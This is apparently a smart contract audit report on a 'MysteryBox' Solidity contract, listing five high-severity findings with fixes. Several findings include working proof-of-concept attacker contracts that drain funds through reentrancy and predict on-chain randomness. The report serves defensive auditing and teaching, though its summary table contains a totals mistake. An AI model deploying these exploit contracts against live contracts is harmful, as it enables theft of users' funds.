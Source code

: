 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  80%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo.png" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: CryptekMegatron</h3>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)
- [Informational](#informational)
- [Gas](#gas)

# Protocol Summary

**MysteryBox** is a thrilling protocol where users can purchase mystery boxes containing random rewards! Open your box to reveal amazing prizes, or trade them with others.


# Disclaimer

The CryptekMegatron team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

**The findings described in this document correspond the following git repository:**
```
https://github.com/Cyfrin/2024-09-mystery-box.git
```
**with the following commit hash :**
```
281a3e35761a171ba134e574473565a1afb56b68
```

## Scope 

```
src/
--- MysteryBox.sol
```

## Compatibilities

* **Blockchains**: EVM Equivalent Chains Only
* **Tokens**: Standard ERC20 Tokens Only

## Roles

* **Owner/Admin (Trusted)** - Can set the price of boxes, add new rewards, and withdraw funds.
* **User/Player** - Can purchase mystery boxes, open them to receive rewards, and trade rewards with others.


# Executive Summary
## Issues found
| Severity          | Number of issues found |
| ----------------- | ---------------------- |
| High              | 5                      |
| Medium            | 0                      |
| Low               | 0                      |
| Info              | 0                      |
| Gas Optimizations | 0                      |
| Total             | 0                      |
# Findings
# High

### [H-1] `MysteryBox::changeOwner` is callable by anyone allowing anyone take ownership of the contract

**Description:** The `MysteryBox::changeOwner` function is set to be a `public` function, but the purpose of the smart contract is only the owner can set the price of boxes, add new rewards, and withdraw funds. This allows anyone to hijack the contract.

```javascript
    function changeOwner(address _newOwner) public {
@>      // @audit - there a re no access controls here
        owner = _newOwner;
    }
```

**Impact:** Anyone can take ownership of the contract allowing them access to set the price of boxes, add new rewards, and withdraw funds.

**Proof of Concept:**

The following function in `TestMysteryBox.t.sol` serves as proof of code, showing anyone can change ownership of the contract:

```javascript
    function testChangeOwner_AccessControl() public {
        vm.prank(user1);
        mysteryBox.changeOwner(user1);
        assertEq(mysteryBox.owner(), user1);
    }

```

**Recommended Mitigation:** Add an access control modifier to the `changeOwner` function.

```diff
    function changeOwner(address _newOwner) public {
+       require(msg.sender == owner, "Only owner can change contract ownership.");      
        owner = _newOwner;
    }
```

Additionally update the test function in `TestMysteryBox.t.sol`:

```diff
    function testChangeOwner_AccessControl() public {
        vm.prank(user1);
+       vm.expectRevert("Only owner can change contract ownership.");
        mysteryBox.changeOwner(user1);
-       assertEq(mysteryBox.owner(), user1);

    }

+   function testChangeOwner_AccessControl_Owner() public {
+       vm.prank(owner);
+       mysteryBox.changeOwner(user1);
+       assertEq(mysteryBox.owner(), user1);
}
```

### [H-2] Weak randomness in `MysteryBox::openBox` allows anyone to manipulate reward

**Description:** Hashing `block.timestamp` and `msg.sender` together creates a predictable final number, which is bad for a random number generator. Malicious users can manipulate the values or know their value ahead of time to choose the reward.

**Impact:** Any user can choose the reward, selecting the "rarest" reward, making it so the rewards are not random. 

**Proof of Concept:**
The are two attack vectors here:
1.  Validators can know ahead of time the `block.timestamp` and use that knowledge to predict when / how to participate. See the [solidity blog on prevrando](https://soliditydeveloper.com/prevrandao) here.
2.  Users can manipulate the `msg.sender` value to result in them getting the "rarest" reward.

The function below will calculate the block.timestamp to guarantee a non zero value reward for the provided address:

```javascript
    function calculateWinTimestampValue(address addr) public view returns (uint256) {
        uint256 value;
        uint256 winTime = block.timestamp;
                
        do {
            winTime++;
            value = uint256(keccak256(abi.encodePacked(winTime, addr))) % 100;            
        } while (value < 95);

        return winTime;
    }
```

Using on chain values as a randomness seed is a [well known attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

**Recommended Mitigation:** Consider using an oracle for your randomness like [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction).

### [H-3] Reentrancy attack in `MysteryBox::claimAllRewards` allows User/Player with non zero value reward to drain contract balance

**Description:** 
The `MysteryBox::claimAllRewards` function does not follow [CEI/FREI-PI](https://www.nascent.xyz/idea/youre-writing-require-statements-wrong) and as a result, enables any User/Player with a non zero value to drain the contract balance.

In the `MysteryBox::claimAllRewards` function, we first make an external call to the `msg.sender` address, and only after making that external call, we update the `rewardsOwned` array. 

```javascript
    function claimAllRewards() public {
        uint256 totalValue = 0;
        for (uint256 i = 0; i < rewardsOwned[msg.sender].length; i++) {
            totalValue += rewardsOwned[msg.sender][i].value;
        }
        require(totalValue > 0, "No rewards to claim");

@>      (bool success,) = payable(msg.sender).call{value: totalValue}("");
        require(success, "Transfer failed");

@>      delete rewardsOwned[msg.sender];
    }
```

A player who has a non zero value reward eg. a "Bronze Coin" could have a `fallback`/`receive` function that calls the `MysteryBox::claimAllRewards` function again and claim another reward. They could continue to cycle this until the contract balance is drained. 

**Impact:** The balance of the contract can be stolen by a User/Player

**Proof of Concept:**

1. Users buy boxes.
2. Attacker sets up a contract with a `fallback` function that calls `MysteryBox::claimAllRewards`.
3. Attacker buys box, opens it, and gets a non zero value reward. (`MysteryBox::openBox` can be manipulated to guarantee reward).
4. Attacker calls `MysteryBox::claimAllRewards` from their contract, draining the contract balance.

**Proof of Code:** 

<details>
<summary>Code</summary>
Add the following code to the `TestMysteryBoxTest.t.sol` file into the `MysteryBoxTest` contract

```javascript
// @notice function to calculate which block timestamp to open a box on to guarantee anon zero value reward
    // @param addr: address you want to get the reward
    function calculateWinTimestampValue(address addr) public view returns (uint256) {
        uint256 value;
        uint256 winTime = block.timestamp;
                
        do {
            winTime++;
            value = uint256(keccak256(abi.encodePacked(winTime, addr))) % 100;            
        } while (value < 95);

        return winTime;
    }

    function testReentrancyClaimAllRewards() public {
        ReentrancyAttackerClaimAllRewards attacker = new ReentrancyAttackerClaimAllRewards(address(mysteryBox));
        // get price of a box
        uint256 boxPrice = mysteryBox.boxPrice(); 
        
        // set the initial attacker balance to the box price
        vm.deal(address(attacker), boxPrice);

        // calculate timestamp to guarantee win
        uint256 winningTimestamp = calculateWinTimestampValue(address(attacker));

        // set block.timestamp to the winning timestamp
        vm.warp(winningTimestamp);

        // starting contract balance
        uint256 startingContractBalance = address(mysteryBox).balance;

        // run attack contract
        attacker.attack(); 

        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingContractBalance = address(mysteryBox).balance;

        uint256 rewardValue = attacker.rewardValue(); 
        
        // calculate max contract value
        uint256 totalMysteryBoxValue = startingContractBalance + boxPrice;

        // calculate number of times withdraw will happen
        uint256 numberOfDuplicates = totalMysteryBoxValue / rewardValue;

        // calculate amount withdrawn
        uint256 totalWithdrawnToAttacker = rewardValue * numberOfDuplicates;

        assertEq(endingAttackerBalance, totalWithdrawnToAttacker);
        assertEq(endingContractBalance, totalMysteryBoxValue -  totalWithdrawnToAttacker);
    }

```
Add the following code to the `TestMysteryBoxTest.t.sol` file

```javascript
contract ReentrancyAttackerClaimAllRewards {
    MysteryBox public mysteryBox;
    uint256 public boxPrice;
    uint256 public rewardValue;
    
    constructor (address _mysteryBox) {
        mysteryBox = MysteryBox(_mysteryBox);
        boxPrice = mysteryBox.boxPrice();
    }

    function attack() external payable { 
        mysteryBox.buyBox{value: boxPrice}();
        mysteryBox.openBox();  
        rewardValue = mysteryBox.getRewards()[0].value;         
        mysteryBox.claimAllRewards();
    }

    receive() external payable {
        if (address(mysteryBox).balance > rewardValue) {
            mysteryBox.claimAllRewards();
        }        
    }

    fallback() external payable {
        if (address(mysteryBox).balance > rewardValue) {
            mysteryBox.claimAllRewards();
        }        
    }
}
```

</details>

**Recommended Mitigation:** 
To fix this, we should have the `MysteryBox::claimAllRewards` function update the `rewardsOwned` array before making the external call as shown below:

```diff
    function claimAllRewards() public {
        uint256 totalValue = 0;
        for (uint256 i = 0; i < rewardsOwned[msg.sender].length; i++) {
            totalValue += rewardsOwned[msg.sender][i].value;
        }
        require(totalValue > 0, "No rewards to claim");

+       delete rewardsOwned[msg.sender];
        (bool success,) = payable(msg.sender).call{value: totalValue}("");
        require(success, "Transfer failed");

-       delete rewardsOwned[msg.sender];
    }
```

### [H-4] Reentrancy attack in `MysteryBox::claimSingleReward` allows User/Player with non zero value reward to drain contract balance

**Description:** 
The `MysteryBox::claimSingleReward` function does not follow [CEI/FREI-PI](https://www.nascent.xyz/idea/youre-writing-require-statements-wrong) and as a result, enables any User/Player with a non zero value to drain the contract balance.

In the `MysteryBox::claimSingleReward` function, we first make an external call to the `msg.sender` address, and only after making that external call, we update the `rewardsOwned` array. 

```javascript
    function claimSingleReward(uint256 _index) public {
        require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
        uint256 value = rewardsOwned[msg.sender][_index].value;
        require(value > 0, "No reward to claim");

@>      (bool success,) = payable(msg.sender).call{value: value}("");
        require(success, "Transfer failed");

@>      delete rewardsOwned[msg.sender][_index];
    }
```

A player who has a non zero value reward eg. a "Bronze Coin" could have a `fallback`/`receive` function that calls the `MysteryBox::claimSingleReward` function again and claim another reward. They could continue to cycle this until the contract balance is drained. 

**Impact:** The balance of the contract can be stolen by a User/Player

**Proof of Concept:**

1. Users buy boxes.
2. Attacker sets up a contract with a `fallback` function that calls `MysteryBox::claimSingleReward`.
3. Attacker buys box, opens it, and gets a non zero value reward. (`MysteryBox::openBox` can be manipulated to guarantee reward).
4. Attacker calls `MysteryBox::claimSingleReward` from their contract, draining the contract balance.

**Proof of Code:** 

<details>
<summary>Code</summary>
Add the following code to the `TestMysteryBoxTest.t.sol` file into the `MysteryBoxTest` contract

```javascript
// @notice function to calculate which block timestamp to open a box on to guarantee anon zero value reward
    // @param addr: address you want to get the reward
    function calculateWinTimestampValue(address addr) public view returns (uint256) {
        uint256 value;
        uint256 winTime = block.timestamp;
                
        do {
            winTime++;
            value = uint256(keccak256(abi.encodePacked(winTime, addr))) % 100;            
        } while (value < 95);

        return winTime;
    }

    function testReentrancyClaimSingleReward() public {
        ReentrancyAttackerClaimSingleReward attacker = new ReentrancyAttackerClaimSingleReward(address(mysteryBox));
        // get price of a box
        uint256 boxPrice = mysteryBox.boxPrice(); 
        
        // set the initial attacker balance to the box price
        vm.deal(address(attacker), boxPrice);

        // calculate timestamp to guarantee win
        uint256 winningTimestamp = calculateWinTimestampValue(address(attacker));

        // set block.timestamp to the winning timestamp
        vm.warp(winningTimestamp);

        // starting contract balance
        uint256 startingContractBalance = address(mysteryBox).balance;

        // run attack contract
        attacker.attack(); 

        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingContractBalance = address(mysteryBox).balance;

        uint256 rewardValue = attacker.rewardValue(); 
        
        // calculate max contract value
        uint256 totalMysteryBoxValue = startingContractBalance + boxPrice;

        // calculate number of times withdraw will happen
        uint256 numberOfDuplicates = totalMysteryBoxValue / rewardValue;

        // calculate amount withdrawn
        uint256 totalWithdrawnToAttacker = rewardValue * numberOfDuplicates;

        assertEq(endingAttackerBalance, totalWithdrawnToAttacker);
        assertEq(endingContractBalance, totalMysteryBoxValue -  totalWithdrawnToAttacker);
    }

```
Add the following code to the `TestMysteryBoxTest.t.sol` file

```javascript
contract ReentrancyAttackerClaimSingleReward {
    MysteryBox public mysteryBox;
    uint256 public boxPrice;
    uint256 public rewardValue;
    
    constructor (address _mysteryBox) {
        mysteryBox = MysteryBox(_mysteryBox);
        boxPrice = mysteryBox.boxPrice();
    }

    function attack() external payable { 
        mysteryBox.buyBox{value: boxPrice}();
        mysteryBox.openBox();  
        rewardValue = mysteryBox.getRewards()[0].value;         
        mysteryBox.claimSingleReward(0);
    }

    receive() external payable {
        if (address(mysteryBox).balance > rewardValue) {
            mysteryBox.claimSingleReward(0);
        }        
    }

    fallback() external payable {
        if (address(mysteryBox).balance > rewardValue) {
            mysteryBox.claimSingleReward(0);
        }        
    }
}
```

</details>

**Recommended Mitigation:** 
To fix this, we should have the `MysteryBox::claimSingleReward` function update the `rewardsOwned` array before making the external call as shown below:

```diff
    function claimSingleReward(uint256 _index) public {
        require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
        uint256 value = rewardsOwned[msg.sender][_index].value;
        require(value > 0, "No reward to claim");

+       delete rewardsOwned[msg.sender][_index];
        (bool success,) = payable(msg.sender).call{value: value}("");
        require(success, "Transfer failed");

-       delete rewardsOwned[msg.sender][_index];
    }
```

### [H-5] Reentrancy attack in `MysteryBox::claimSingleReward` and `MysteryBox::transferReward` allows User/Player with non zero value reward to withdraw and transfer the reward

**Description:** 
The `MysteryBox::claimSingleReward` function does not follow [CEI/FREI-PI](https://www.nascent.xyz/idea/youre-writing-require-statements-wrong) and as a result, enables any User/Player with a non zero value to drain the contract balance.

In the `MysteryBox::claimSingleReward` function, we first make an external call to the `msg.sender` address, and only after making that external call, we update the `rewardsOwned` array. 

```javascript
    function claimSingleReward(uint256 _index) public {
        require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
        uint256 value = rewardsOwned[msg.sender][_index].value;
        require(value > 0, "No reward to claim");

@>      (bool success,) = payable(msg.sender).call{value: value}("");
        require(success, "Transfer failed");

@>      delete rewardsOwned[msg.sender][_index];
    }
```

A player who has a non zero value reward eg. a "Bronze Coin" could have a `fallback`/`receive` function that calls the `MysteryBox::transferReward` function to copy the reward to an arbitrary address.

**Impact:** A non zero reward can be copied to an arbitrary address AND withdrawn by User/Player

**Proof of Concept:**

1. Users buy boxes.
2. Attacker sets up a contract with a `fallback` function that calls `MysteryBox::transferReward`.
3. Attacker buys box, opens it, and gets a non zero value reward. (`MysteryBox::openBox` can be manipulated to guarantee reward).
4. Attacker calls `MysteryBox::transferReward` from their contract, copying the reward to the address.

**Proof of Code:** 

<details>
<summary>Code</summary>
Add the following code to the `TestMysteryBoxTest.t.sol` file into the `MysteryBoxTest` contract

```javascript
// @notice function to calculate which block timestamp to open a box on to guarantee anon zero value reward
    // @param addr: address you want to get the reward
    function calculateWinTimestampValue(address addr) public view returns (uint256) {
        uint256 value;
        uint256 winTime = block.timestamp;
                
        do {
            winTime++;
            value = uint256(keccak256(abi.encodePacked(winTime, addr))) % 100;            
        } while (value < 95);

        return winTime;
    }

    function testCrossReentrancy() public {
        address receiver = makeAddr("receiver");
        CrossReentrancyAttackerSender attacker = new CrossReentrancyAttackerSender(address(mysteryBox), receiver);
        // get price of a box
        uint256 boxPrice = mysteryBox.boxPrice(); 
        
        // set the initial attacker balance to the box price
        vm.deal(address(attacker), boxPrice);

        // calculate timestamp to guarantee win
        uint256 winningTimestamp = calculateWinTimestampValue(address(attacker));

        // set block.timestamp to the winning timestamp
        vm.warp(winningTimestamp);

        // starting contract balance
        uint256 startingContractBalance = address(mysteryBox).balance;

        // run attack contract
        attacker.attack(); 

        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingContractBalance = address(mysteryBox).balance;

        uint256 rewardValue = attacker.rewardValue(); 
        
        // calculate max contract value
        uint256 totalMysteryBoxValue = startingContractBalance + boxPrice;

        // calculate number of times withdraw will happen
        //uint256 numberOfDuplicates = totalMysteryBoxValue / rewardValue;

        // calculate amount withdrawn
        //uint256 totalWithdrawnToAttacker = rewardValue * numberOfDuplicates;

        vm.prank(receiver);
        uint256 receiverRewards = mysteryBox.getRewards().length;

        assertEq(endingAttackerBalance, rewardValue);
        assertEq(endingContractBalance, totalMysteryBoxValue -  rewardValue);
        assertEq(receiverRewards, 1);
    }

```
Add the following code to the `TestMysteryBoxTest.t.sol` file

```javascript
contract CrossReentrancyAttackerSender {
    MysteryBox public mysteryBox;
    address toAddr;
    uint256 public rewardValue;
    uint256 public boxPrice;
    
    constructor (address _mysteryBox, address _toAddr) {
        mysteryBox = MysteryBox(_mysteryBox);
        boxPrice = mysteryBox.boxPrice();
        toAddr = _toAddr;
    }

    function attack() external payable { 
        mysteryBox.buyBox{value: boxPrice}();
        mysteryBox.openBox();
        rewardValue = mysteryBox.getRewards()[0].value;
        mysteryBox.claimSingleReward(0);
    }

    receive() external payable {
        mysteryBox.transferReward(toAddr, 0);      
    }

    fallback() external payable {
        mysteryBox.transferReward(toAddr, 0); 
    }
}
```

</details>

**Recommended Mitigation:** 
To fix this, we should have the `MysteryBox::claimSingleReward` function update the `rewardsOwned` array before making the external call as shown below:

```diff
    function claimSingleReward(uint256 _index) public {
        require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
        uint256 value = rewardsOwned[msg.sender][_index].value;
        require(value > 0, "No reward to claim");

+       delete rewardsOwned[msg.sender][_index];
        (bool success,) = payable(msg.sender).call{value: value}("");
        require(success, "Transfer failed");

-       delete rewardsOwned[msg.sender][_index];
    }
```

# Medium
# Low 
# Informational
# Gas 